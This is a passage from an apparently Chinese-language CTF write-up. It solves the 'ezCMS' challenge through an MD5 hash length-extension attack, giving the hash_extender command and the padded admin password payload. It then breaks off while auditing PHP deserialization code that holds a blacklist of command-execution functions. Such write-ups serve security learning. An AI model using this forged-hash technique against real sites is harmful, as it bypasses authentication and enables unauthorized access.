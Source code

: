  ```

- localtime第一参数默认是time(), 不能接受布尔值也就是chdir的返回值

- localtime() 返回数组来表示当前时间, 第一项是当前的秒数, 要让chr转换成点号的话就要在第46秒执行

  

## ezCMS

源码``www.zip``, 关键代码如下:

身份验证部分

```
function login(){
    $secret = "********";
    setcookie("hash", md5($secret."adminadmin"));
    return 1;

}
function is_admin(){
    $secret = "********";
    $username = $_SESSION['username'];
    $password = $_SESSION['password'];
    if ($username == "admin" && $password != "admin"){
        if ($_COOKIE['user'] === md5($secret.$username.$password)){
            return 1;
        }
    }
    return 0;
}
```

可以明显看出这里有哈希长度扩展攻击.

哈希生成

```
./hash_extender -d 'admin' -s 52107b08c0f3342d2153ae1d68e6262c -f md5 -a 'ch4ser' --out-data-format=html -l 13 --quiet
```

得到了新的哈希值,添加到cookie[user]中

然后新的登录用户名: admin

用户密码:admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%90%00%00%00%00%00%00%00ch4ser

第二部分反序列化代码审计.

```php
class Check{
    public $filename;

    function __construct($filename)
    {
        $this->filename = $filename;
    }

    function check(){
        $content = file_get_contents($this->filename);
        $black_list = ['system','eval','exec','+','passthru','`','assert'];
        foreach ($black_list as $k=>$v){
```
